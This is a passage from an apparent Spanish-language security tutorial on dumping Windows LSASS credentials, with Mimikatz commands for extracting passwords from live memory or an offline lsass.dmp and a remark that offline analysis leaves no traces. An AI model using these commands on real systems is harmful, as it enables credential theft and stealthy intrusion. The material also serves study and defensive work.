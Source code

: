 ![image.png](/assets/images/lssas-credentials-dumping/image%205.png)

**Nota** ⚠️ **: La extracción del archivo lsass.dmp tiene como ventaja que se puede analizar de forma offline para extraer las credenciales sin dejar rastros en el sistema en ejecución.**

## Extracción con Mimikatz

Si tenemos permisos suficientes, podemos extraer credenciales directamente desde la memoria de LSASS usando Mimikatz:

```jsx
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

Observación: Si sekurlsa::logonPasswords deuvelve null en algunos campos, es posible que Credential Guard esté habilitado.

Si ya tenemos un volcado de LSASS (lsass.dmp), podemos analizarlo con Mimikatz sin ejecutar código en la máquina comprometida:

```jsx
sekurlsa::minidump C:\ruta\lsass.dmp
sekurlsa::logonPasswords
```
